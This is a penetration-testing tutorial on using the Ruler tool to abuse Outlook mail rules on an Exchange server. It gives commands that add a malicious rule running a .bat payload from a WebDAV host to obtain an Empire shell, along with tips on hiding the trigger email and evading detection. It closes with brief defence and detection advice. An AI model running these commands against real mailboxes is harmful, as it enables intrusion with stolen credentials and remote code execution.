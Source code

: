 # Pivoting Through Exchange Using Ruler

## Pre-requisits

* **Installing **[**GO **](https://github.com/golang)
* [**ruler** ](https://github.com/sensepost/ruler)

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim is abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is  gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting

### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we  can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below

```
go ruler run --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```
go ruler run --email test@lab.local display
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its  listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server.

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```
go ruler run --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up

once we are done we can delete

`go ruler run  --email test@lab.local delete --name test`

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.

2. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it

The simplest method is to use a script microsoft made to get all the rules

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

You will need to have a global admin role to run the script

### Closing Thoughts

with ruler we can pop a shell and pivot across the network its a great tool that has alot to explore what i showed here is a just one of the things its capable of doing i suggest you to explore the rest of it and get better understanding of its true power.



Written by : ~~**BufferOv3rride**~~

